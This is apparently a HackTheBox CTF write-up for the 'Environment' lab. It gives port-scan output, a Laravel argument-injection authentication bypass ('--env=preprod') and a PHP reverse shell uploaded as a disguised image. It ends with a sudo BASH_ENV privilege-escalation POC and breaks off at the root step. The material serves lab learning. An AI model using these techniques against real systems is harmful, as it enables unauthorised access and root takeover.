 * * *

### LAB: Environment
### CTF: HACKTHEBOX

* * *

- Rustscan's output-:

```bash
❯ rustscan -a environment.htb -- -Pn -sC -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/sensei/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.67:22
Open 10.10.11.67:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-13 15:49 WAT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:49
Completed NSE at 15:49, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:49
Completed NSE at 15:49, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:49
Completed NSE at 15:49, 0.00s elapsed
Initiating Connect Scan at 15:49
Scanning environment.htb (10.10.11.67) [2 ports]
Discovered open port 22/tcp on 10.10.11.67
Discovered open port 80/tcp on 10.10.11.67
Completed Connect Scan at 15:49, 2.25s elapsed (2 total ports)
Initiating Service scan at 15:49
Scanning 2 services on environment.htb (10.10.11.67)
Completed Service scan at 15:49, 6.64s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.11.67.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:49
Completed NSE at 15:49, 17.51s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:49
Completed NSE at 15:49, 2.92s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:49
Completed NSE at 15:49, 0.00s elapsed
Nmap scan report for environment.htb (10.10.11.67)
Host is up, received user-set (0.25s latency).
Scanned at 2025-05-13 15:49:15 WAT for 30s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGrihP7aP61ww7KrHUutuC/GKOyHifRmeM070LMF7b6vguneFJ3dokS/UwZxcp+H82U2LL+patf3wEpLZz1oZdQ=
|   256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ7xeTjQWBwI6WERkd6C7qIKOCnXxGGtesEDTnFtL2f2
80/tcp open  http    syn-ack nginx 1.22.1
|_http-title: Save the Environment | environment.htb
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-server-header: nginx/1.22.1
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- Ffuf's output

![image](https://github.com/user-attachments/assets/8ca19e57-5173-4697-9df8-d10293e28e5c)


- I identified Laravel's version because debug mode is enabled.I made a `GET` request to the directory upload and encountered an error which exposed the php and laravel build

![image](https://github.com/user-attachments/assets/be5c2345-a912-4073-9df4-2b90c4049ad4)

- I googled for CVES related to this version and got [one](https://github.com/Nyamort/CVE-2024-52301).Laravel is vulnerable to argument injection which occurs if the `register_argc_argv` option is enabled in the php.ini.This setting loads command-line arguments and query params into `$_SERVER['argv']`.The vulnerability allows us to set the environment that the laravel web app will load which signifies that we can load old environments that can be vulnerable.

POC-:

```<url>/?env--=production
```

- Our next task is to find pre-existing enviroment before `production`.I tried to trigger more errors to discover more parts of the source code.I tried to login with no values in the params and I got another error with more exposed source code.

![image](https://github.com/user-attachments/assets/d50b1984-ea85-4fa2-97a1-171349953598)

- The code exposed reveals a pre-existing environment that allows us to login automatically.

```php
      $keep_loggedin = False;
    } elseif ($remember == 'True') {
        $keep_loggedin = True;
    }
 
    if($keep_loggedin !== False) {
    // TODO: Keep user logged in if he selects "Remember Me?"
    }
 
    if(App::environment() == "preprod") { //QOL: login directly as me in dev/local/preprod envs
        $request->session()->regenerate();
        $request->session()->put('user_id', 1);
        return redirect('/management/dashboard');
    }
 
    $user = User::where('email', $email)->first();
```

- Poc-:

```
<url>/login?--env=prepod
```

- Request should be submitted with empty params aside `_token` and remember should be set to false.

![image](https://github.com/user-attachments/assets/db2f93c5-7602-49c6-b3b7-8fc5d440c8f5)

- Portal accessed-:

![image](https://github.com/user-attachments/assets/c5c9f813-43ff-4b4e-ac4a-b068040ae769)


- We can upload a profile picture,let's try to upload a php reverse shell within a legitimate image and an extension `.php.`.

![image](https://github.com/user-attachments/assets/22c6cb5b-67b5-4d80-91ab-aa2229952dd6)


- Shell

![image](https://github.com/user-attachments/assets/189d1a4c-540f-4e14-abe3-defab693940d)

- Reverse shell-:

![image](https://github.com/user-attachments/assets/5a5c1c75-a170-4d2c-bb8f-c0361168b6c3)

- I ran linpeas and discovered a directory where gpg keys are stored.

![image](https://github.com/user-attachments/assets/faff85ff-d6f5-4267-9b5b-beb86f5d566c)

- A gpg encrypted file too-:

![image](https://github.com/user-attachments/assets/8c968551-4a92-4ec4-bee1-a728a2b931dd)

- I decrypted with this-:

![image](https://github.com/user-attachments/assets/3b8f2914-9742-49af-87f4-4272ae11b46a)

- Hish accessed-:

![image](https://github.com/user-attachments/assets/72af2350-ec5e-4e64-b210-6938325ac4b9)

------------------

### Privesc with keep_env and bash_env

------------------

- `sudo -l`-:

![image](https://github.com/user-attachments/assets/1dccd336-c751-4fc9-9c8a-8d93feec781a)

- When running a binary based on the sudoers file, only the default env variables are loaded.`Env_keep` exists to allow us add a vaariable to the members of the `sudo group` which means we can set this variable which can be used when we run as root.The `BASH_ENV` variable indicates the startup script path when a bash non interactive shell is started.
- A non interactive shell starts when you run a bash script.It starts because a bash shebang is indicated.

![image](https://github.com/user-attachments/assets/abe78c69-f335-4b68-a9e4-7e6d9e31cc09)

- I exploited it by creating a bash startup script that starts a bash shell.

![image](https://github.com/user-attachments/assets/59f241bd-c2b5-445e-b7ad-cfeebe362bd2)

- POC-:

```bash
echo -ne "#\! /bin/bash\nbash" > shell.sh
export BASH_ENV=./shell.sh
sudo /usr/bin/systeminfo
```

- Root-:



